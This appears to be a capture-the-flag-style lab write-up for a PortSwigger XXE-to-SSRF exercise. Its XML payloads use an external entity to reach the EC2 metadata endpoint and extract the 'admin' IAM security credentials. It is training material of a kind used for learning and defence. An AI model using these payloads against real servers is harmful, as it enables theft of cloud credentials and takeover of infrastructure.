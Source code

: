 # Exploiting XXE to perform SSRF attacks

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

## To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### step1

```xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

### step2

add `http://169.254.169.254/`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](./images/lab2_part1.png)

![screenshot](./images/lab2_part2.png)

![screenshot](./images/lab2_part3.png)

![screenshot](./images/lab2_part4.png)

![screenshot](./images/lab2_part5.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](./images/lab2_part6.png)
